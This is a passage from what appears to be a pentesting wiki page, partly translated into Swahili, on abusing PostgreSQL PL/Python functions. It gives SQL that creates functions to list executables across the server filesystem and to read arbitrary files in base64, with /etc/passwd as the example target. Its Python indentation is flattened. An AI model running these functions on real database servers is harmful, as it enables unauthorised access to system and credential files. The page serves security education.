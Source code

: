 ```sql
SELECT findx("/"); #Find an executables in folder (recursively)
```
{% endtab %}

{% tab title="Pata exec kwa subs" %}
```sql
CREATE OR REPLACE FUNCTION find_exe (exe_sea text)
RETURNS VARCHAR(65535) stable
AS $$
import os
def my_find(path):
executables = []
def find_executables(path):
if not os.path.isdir(path) and os.access(path, os.X_OK):
executables.append(path)

if os.path.isdir(path):
if not os.listdir(path):
return
else:
for item in os.listdir(path):
find_executables(os.path.join(path, item))
find_executables(path)
return executables

a = my_find("/")
b = []

for i in a:
if exe_sea in i:
b.append(i)
return ", ".join(b)
$$
LANGUAGE 'plpythonu';

SELECT find_exe("psql"); #Find executable by susbstring
```
{% endtab %}

{% tab title="Soma" %}
```sql
CREATE OR REPLACE FUNCTION read (path text)
RETURNS VARCHAR(65535) stable
AS $$
import base64
encoded_string= base64.b64encode(open(path).read())
return encoded_string.decode('utf-8')
return open(path).read()
$$
LANGUAGE 'plpythonu';

select read('/etc/passwd'); #Read a file in b64
```
{% endtab %}
